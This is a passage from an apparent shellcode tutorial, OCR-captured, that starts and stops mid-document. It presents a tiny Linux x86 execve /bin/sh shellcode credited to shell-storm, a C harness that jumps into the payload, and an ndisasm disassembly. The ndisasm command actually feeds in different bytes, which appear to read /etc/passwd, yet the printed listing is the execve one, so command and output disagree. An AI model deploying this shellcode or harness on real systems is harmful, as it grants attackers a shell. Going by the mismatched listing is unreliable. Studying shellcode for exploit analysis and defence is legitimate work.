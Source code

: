 ```
	int 0x80
```

### 2) LINUX/X86 – TINY EXECVE SH SHELLCODE

The following shellcode is available on shell-storm which is written by Geyslan G. Bem:

#### Original code:

```
#include <stdio.h>
#include <string.h>

unsigned char shellcode[] = \
"\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
main ()
{
        // When contains null bytes, printf will show a wrong shellcode length.
	printf("Shellcode Length:  %d\n", strlen(shellcode));

	// Pollutes all registers ensuring that the shellcode runs in any circumstance.
	__asm__ ("movl $0xffffffff, %eax\n\t"
		 "movl %eax, %ebx\n\t"
		 "movl %eax, %ecx\n\t"
		 "movl %eax, %edx\n\t"
		 "movl %eax, %esi\n\t"
		 "movl %eax, %edi\n\t"
		 "movl %eax, %ebp\n\t"
		 // Calling the shellcode
		 "call shellcode");
}
```

Using ndisasm to view the assembly code:

```
Command-Line 
==> echo -ne "\x31\xc9\xf7\xe1\xb0\x05\x51\x68\x73\x73\x77\x64\x68\x63\x2f\x70\x61\x68\x2f\x2f\x65\x74\x89\xe3\xcd\x80\x93\x91\xb0\x03\x31\xd2\x66\xba\xff\x0f\x42\xcd\x80\x92\x31\xc0\xb0\x04\xb3\x01\xcd\x80\x93\xcd\x80" | ndisasm -u -

00000000 31C9          xor ecx,ecx
00000002 F7E1          mul ecx
00000004 B00B          mov al,0xb
00000006 51            push ecx
00000007 682F2F7368    push dword 0x68732f2f  ;; hs//
0000000C 682F62696E    push dword 0x6e69622f  ;; nib/
00000011 89E3          mov ebx,esp
00000013 CD80          int 0x80
```

#### Modified code:
